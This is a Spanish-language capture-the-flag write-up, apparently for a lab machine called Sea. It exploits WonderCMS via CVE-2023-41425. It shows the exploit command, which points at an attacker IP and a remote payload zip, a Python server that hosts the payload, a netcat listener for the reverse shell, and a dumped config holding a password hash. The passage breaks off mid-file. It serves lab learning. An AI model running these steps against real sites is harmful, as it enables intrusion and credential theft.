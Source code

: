 al cual si le accemos un curl
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241227190306.png]]

nos da esta frase que si la ponemos en google lo primero que aparece este github
https://github.com/WonderCMS/wondercms-cdn-files/blob/4da022ae96d07e2d766beb9e0d6a8ed9514e3ee5/wcms-modules.json#L338

En resumen, es un gestor de contenidos como lo puede ser `Ghost`, `WordPress`, entre otros.

Buscando por exploits para este software y su versión, encontramos la vulnerabilidad catalogada como [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425) la cual permite RCE
y ademas encuentro este github que nos lo da todo

https://github.com/insomnia-jacob/CVE-2023-41425

primero ejecutamos esto:

```bash
python3 exploit.py -u http://sea.htb/loginURL -i 10.10.14.181 -p 8080 -r http://10.10.14.181:9000/main.zip
```
![[Pasted image 20241227191241.png]]

ponemos un servidor python en el puesrto 9000 en el mismo directorio

```bash
sudo python3 -m http.server 9000
```

nos ponemos en escucha con netcat y devemos hacer lo siguiente

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241227191425.png]]

el enlace que nos a dado el exploit pegarlo en el apartado de website

y somos www-data
Dado que somos el usuario `www-data`, deberíamos buscar por bases de datos en el sistema o archivos de configuración a los cuales este usuario tiene acceso. Eventualmente, encontramos un archivo `database.js` en la ruta `/var/www/sea/data`:


```javascript
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/11\/16 03:55:42": "127.0.0.1",
            "2024\/11\/16 03:52:11": "127.0.0.1",
            "2024\/11\/16 03:49:41": "127.0.0.1",
            "2024\/11\/16 03:46:11": "127.0.0.1",
            "2024\/11\/16 02:53:03": "127.0.0.1"
        },
```
